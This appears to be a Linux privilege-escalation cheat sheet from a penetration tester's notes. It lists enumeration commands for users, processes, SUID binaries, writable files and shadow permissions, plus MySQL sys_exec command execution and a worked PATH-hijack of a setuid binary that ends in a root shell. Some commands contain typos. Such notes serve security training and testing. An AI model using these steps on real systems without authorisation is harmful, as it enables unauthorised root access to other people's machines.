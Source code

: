 # elevate linux

## what's the os? what version? what architecture?

    cat /etc/*-release
    uname -i
    lsb_release -a (debian based oss)

## who are we? where are we?

    id
    pwd

## who uses the box? what users? (and which ones have a valid shell)

    cat /etc/passwd
    grep -ve "nologin|false" /etc/passwd

## what's currently running on the box? what active network services are there?

    ps aux
    netstat -antup
    ss -ltpa

## what's installed? what kernel is being used?

    dpkg -l (debian based oss)
    rpm -qa (centos / opensuse )
    uname -a

## who are the current users?

    cat /etc/passwd
    cat /etc/passwd | egrep -e '/bin/(ba)?sh'

## what are the low hanging fruits?

    # if the gods are on your side
    sudo su

    # check for sudo privs
    sudo -l

    # view permissions on passwd
    ls -l /etc/passed

    # view permissions on shadow
    ls -l /etc/shadow

    # check for cron jobs
    cat /etc/crontab

    # check for kernel priv-esc exploits
    uname -a
    cat /etc/issue

    # check /home persmissions
    ls -la /home

    # check /root persmissions
    ls -l /root

    # setuid binaries
    ## look for - nmap,vim,find,bash,more,less,nano,cp,man
    find / -user root -perm -4000 -exec ls -ldb {} \;

    # user writable files
    find / -type f ( ! -path "/proc" ) -writable 2>/dev/null | xargs ls -l

    # check for nfs shares: if writeable, add /root, restart, and mount
    cat /etc/exports

## what are the files we have access to?

    # check for world writeable files
    find / -path /sys -prune -o -path /proc -prune -o -type f -perm -o=w -ls 2> /dev/null

    #check for world writeable directories
    find / -path /sys -prune -o -path /proc -prune -o -type d -perm -o=w -ls 2> /dev/null

    #look for interesint files:
    find / -name "*.txt" -ls 2> /dev/null
    find / -name "*.log" -ls 2> /dev/null

## what are the processes running as root?

    ps -aux | grep root

## what are the processes with open and listening sockets:

    netstat -a | grep -i listen
    netstat -ano
    ss -ltpa

## who is running the database?

    # mysql
    select sys_exec('whoami');
    select sys_eval('whoami');

## what are the boot processes?

    ls /etc/rc*

## setuid

    # after setting a setuid bit on a binary such as bash, in order to retain the setuid privs, you must supply the -p flag:
    ./bash -p

    # overwrite used binary by bash
    $ ls -l /usr/local/bin/docker-security
    -rwsr-xr-x 1 root mortal 16720 feb 15 20:00 /usr/local/bin/docker-security
    $ cd /usr/local/bin/
    $ echo "/bin/bash" > /tmp/chmod
    $ chmod 777 /tmp/chmod
    $ export path=/tmp:$path
    $ echo $path
    /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
    $ ./docker-security
    # id
    uid=0(root) gid=0(root) groups=0(root)
